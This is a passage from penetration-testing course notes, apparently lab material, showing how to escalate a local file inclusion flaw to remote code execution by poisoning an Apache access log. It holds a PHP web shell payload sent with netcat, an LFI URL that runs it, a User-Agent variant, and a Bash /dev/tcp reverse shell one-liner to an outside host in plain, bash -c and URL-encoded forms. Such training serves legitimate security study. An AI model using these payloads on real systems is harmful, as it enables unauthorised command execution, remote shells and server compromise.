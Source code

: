 We might be able to push this vulnerability to remote code execution if we can somehow write PHP code to a local file. 
#### Contaminating Log Files
One way we can try to inject code onto the server is through **log file poisoning**. Most application servers will log all URLs that are requested. We can use this to our advantage by submitting a request that includes PHP code. Once the request is logged, we can use the log file in our LFI payload.

- Use Netcat to send a PHP payload:
    ```sh
    kali@kali:~$ nc -nv 10.11.0.22 80
    (UNKNOWN) [10.11.0.22] 80 (http) open
    <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

    HTTP/1.1 400 Bad Request
    ```
- Use the LFI vulnerability to include the Apache **`access.log`** file that contains our PHP payload. We know the application is using an *include* statement so the contents of the included file will be executed as PHP code.
    ```url
    http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
    ```

Thanks to the application's PHP *include* statement, the contents of the contaminated `access.log` file were executed by the web page.

The PHP engine in turn runs the `<?php echo shell_exec($_GET[‘cmd’]);?>` portion of the log file's text (our payload) with the cmd variable's value of "ipconfig", essentially running ipconfig on the target and displaying the output. The additional lines in the log file are simply displayed because they do not contain valid PHP code.

> **Info**:
> Another way to perform this kind of attacks and "automate" the procedure is to use Burp's *Repeater* feature. And if, for example, the User Agent is present in the logs we can modify the User Agent field using Burp to contain `<?php echo system($_GET['cmd']); ?>`. And the make some requests like the ones shown above.

We have achieved command execution on the target system and can leverage this to get a reverse shell or add our SSH key to the authorized_keys file for a user.

Let's attempt to obtain a reverse shell by adding a command to the cmd parameter. We can use a common Bash TCP reverse shell one-liner.8 The target IP for the reverse shell may need to be updated in the labs.
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```
Since we'll execute our command through the PHP system function, we should be aware that the command may be executed via the *Bourne Shell* (sh), rather than Bash. The previous reverse shell one-liner contains syntax that is not supported by the Bourne Shell. To ensure the reverse shell is executed via Bash, we need to modify the reverse shell command. We can do this by providing the reverse shell one-liner as argument to bash -c, which executes a command with Bash.
```
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
We'll once again encode the special characters with URL encoding.
```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

